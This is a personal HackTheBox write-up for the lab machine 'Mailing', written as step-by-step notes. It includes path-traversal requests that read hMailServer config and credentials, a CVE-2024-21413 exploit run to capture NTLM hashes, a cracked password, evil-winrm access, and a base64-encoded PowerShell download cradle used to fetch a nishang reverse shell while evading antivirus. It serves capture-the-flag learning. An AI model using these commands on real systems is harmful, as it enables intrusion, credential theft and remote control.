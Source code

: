 # HackTheBox - Mailing

### What I Learned

1. Check get requests for non-sanitized inputs
2. Php file structures for websites always have an "index.php" file that can show the layout of the website/app
3. Applications running almost always have some config or initilization file buried in the machine. Usually in Program files (Progra~1 OR Progra~2)
4. A web cradle is a method to stage external powershell scripts from a launcher
5. Nxc - netexec can be used to check logins, shares, auth privileges, and winrm access

<details>
  <summary><strong>Writeup Summary</strong></summary>
I learned that I really don't like mailing attacks, even though Phishing is one of the most common attack vectors today.

</details>
<br>

## Writeup

Scan the machine with nmap

- `nmap -sV -sC -sT -vv -oA nmap/scan 10.129.231.40`

Try scanning machine using netexec

- See the hostname of the box - Is it part of a domain?
- `nxc smb 10.129.231.40`
- Check for shares, check if anonymous authentication is enabled
  - Check using a user that doesn't exist ('' or '.')
- `nxc smb -u '.' -p '' 10.129.231.40 --shares`

Download the file from the min page, read it for information
Check the downloaded file for data using exiftool

- Exiftool ~/Downloads/instructions.pdf

Check if the download file has been recreated at GET time or if it gets transferred to the local machine directly based on access/modify/change times

- wget 'http://mailing.htb/download.php?file=instructions.pdf'
- stat download.php\?file=-instructions.pdf

---

- Then check a photo from the webpage directly
- wget http://mailing.htb/assets/ruyalonso.jpg
- stat ruyalonso.jpg

Start getting files from the server using burp

- GET /download.php?file=../download.php

File Disclosure in windows machines,

- Check `../../../../../../windows/system32/license.rtf`

Now check for index.php

- GET `/download.php?file=../index.php HTTP/1.1`

Google Hmailserver configuration file
![alt text](images/image.png)

- Check Program files, program files (x86),
- `GET /download.php?file=../../../Program%20Files%20(x86)/hMailServer/bin/hMailServer.ini`

Find 2 passwords

- `AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7 : homenetworkingadministrator`
- Password=0a9f8ad8bf896b501dde74f08efd7e4c

- `nxc smb <IP> -u <USER>-p <PASS>`

Try to login to the server using swaks to verify access to email server.
Could try sending emails to known users, but not sure if that is worth the time

- `swaks -server mailing.htb --auth LOGIN --auth-user administrator@mailing.htb --auth-password <PASSWORD> --quit-after AUTH`

Now search for a machine with a vulnerability using Microsoft email SMTP

Find CVE-2024-21413 on github

- Setup an smb share on your kali machine with the name "smbFolder"
- impacket-smbserver smbFolder $(pwd) -smb2support
- Set up a listener to listen for any response. We care if SMB is active or not

  - `sudo responder -I tun0`

- Once that is running, run the exploit file against the target machine
  - `python3 CVE/21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password 'homenetworkingadministrator' --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\\\10.10.14.209\smbFolder\test.txt" --subject Test`

Get an NTLM hash
`maya::MAILING:aaaaaaaaaaaaaaaa:60f6b238b0a3e2756d6d1e35991555b3:010100...`

Crack it with hashcat

- `maya:m4y4ngs4ri`

- Check for authentication privileges
  - `nxc smb 10.129.231.40 -u maya -p m4y4ngs4ri`
- Check for winrm access using nxc
  - `nxc winrm 10.129.231.40 -u maya -p m4y4ngs4ri`
- Check for shares
  - `nxc smb 10.129.231.40 -u maya -p m4y4ngs4ri --shares`
    Use the new credentials with evil-winrm to get access to the machine via smb
- `evil-winrm -u maya -p m4y4ngs4ri -i mailing.htb`

Nothing found in the Important Documents folder.
Try writing to the web directory root - If you can get a shell from the webserver, you might have a dangerous permission

Look for index.php in the wwwroot in the PHP folder, not there
Look in `C:\\wwwroot` , but permissions are denied.

In Burp, check the download.php file that gets the instructions pdf from the main page. Check the instructions folder and find you don't have access there either
![alt text](images/image-1.png)

In windows, try to steal the hash of the webserver - could leak the ntlm credentials of the webserver

- C:/www/root
  ![alt text](images/image-2.png)
- But the C:/wwwroot/instructions/ breaks that UNC path

Check the Program files and find LibreOffice running
Check the version

- `type C:\Program Files\LibreOffice\program\version.ini`

Create a web cradle that continuously stages powershell scripts from a launcher

- Stage PS script external to target machines
- Helps to get around antivirus
  - AV doesn't flag this script, but it will flag a revshell
- `IEX(New-Object Net.WebClient).downloadString('http://10.10.14.209:8000/shell.ps1')`
- Convert the cradle to base64 in a format that is windows friendly
- cat cradle | iconv -t utf-16le | base64 -w 0
  - Convert text encoding to utf-16 Little Endian - common for windows powershell environments
  - `Base64 -w 0 -> ensures no line breaks in the base 64 output`
  - `SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIAMAA5ADoAOAAwADAAMAAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA==`

Setup a reverse shell oneliner

- `cp /usr/share/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1 .`

Set up a python server to serve it and the output file from the CVE in the same folder
Upload the exploit.odt file

- `curl http://10.10.14.209:8000/exploit.odt -o exploit.odt`

Wait for the files to be executed and you have a shell.
